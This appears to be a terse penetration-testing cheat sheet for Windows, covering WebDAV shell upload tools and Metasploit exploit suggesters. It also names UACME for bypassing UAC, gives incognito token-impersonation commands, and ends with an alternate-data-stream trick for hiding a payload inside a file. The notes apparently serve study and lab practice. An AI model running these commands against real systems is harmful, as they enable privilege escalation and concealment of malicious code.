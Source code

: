 ## Frequently Exploited Services
```
Microsoft IIS (internet information services)
WebDAV (WebBased Distributed Authoring and versioning)
RDP (Remote Desktop Protocol)
WinRM (Remote Management)
```

## MicrosoftIIS + WebDAV Exploiting
```
Enumerate using -----     davtest
Upload shell and Exploit using  ------ cadaver
```

## MSFConsole
```
multi/recon/local_exploit_suggester
```
## Kernal Exploits

```
exploit suggester python script --database --systeminfo
```

## Window Privesc
### UACME
```
UAC Bypassing UACME
```
### Access Token Impersonation
#### Privilege Required For Impersonation
```
SeAssignPrimaryToken:
SeCreateToken:
SeImpersonatePrivilege:
```
#### Incoginto in Metasploit
```
load incognito
list_tokens -u
impersonate_token "--token---"
```
### Alternate Data Streams ( To hide malicious payload inside the legitimate files' metadata )
```
first create a txt file : "notepad lee.txt"
type "file to hide" > lee.txt:somthing.exe
mklink aname.exe C:\path\to\lee.txt:something.exe
.\aname.exe
```

